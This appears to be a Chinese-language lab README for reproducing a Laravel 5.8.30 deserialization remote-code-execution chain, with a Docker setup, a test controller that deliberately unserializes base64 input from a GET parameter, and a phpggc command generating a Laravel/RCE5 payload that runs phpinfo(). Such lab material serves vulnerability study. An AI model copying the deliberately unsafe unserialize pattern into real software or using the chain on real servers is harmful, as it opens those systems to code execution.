

## Laravel 反序列化链 RCE5

### 漏洞环境

执行如下命令启动一个 `laravel5.8.30` 的环境：

```
docker-compose up -d
```

访问 http://x.x.x.x/index.php/test ，看到 `hello world` 既搭建成功

测试代码

```php
<?php
namespace App\Http\Controllers;

class TestController extends Controller
{
	public function index()
	{
		if(isset($_GET['a']))
		{
			unserialize(base64_decode($_GET['a']));
		}
		else
		{
			echo "hello world";
		}
	}
}
```

### 漏洞影响

5.8.30

### 漏洞分析

暂未开放

### 漏洞复现

使用 `phpggc` 生成 `base64` 编码后的 `payload`

```
php phpggc Laravel/RCE5 phpinfo(); -b
```



### 漏洞 EXP

暂未开放


